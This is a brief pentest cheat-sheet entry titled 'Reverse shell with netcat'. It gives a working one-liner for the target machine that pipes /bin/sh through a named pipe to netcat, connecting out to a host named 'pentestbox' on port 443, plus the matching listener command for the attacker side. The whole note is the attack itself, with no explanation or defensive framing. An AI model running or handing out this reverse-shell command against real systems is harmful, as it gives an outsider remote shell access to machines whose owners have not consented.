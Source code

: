 # Reverse shell with netcat

On the target behind a NAT : 

```
/bin/sh -c "/bin/sh 0</tmp/backpipe | nc pentestbox 443 1>/tmp/backpipe"
```

On the pentest side :

```
nc -nvlp 443
```


TAGS : security netcat shell reverse
DATE : 21 07 2019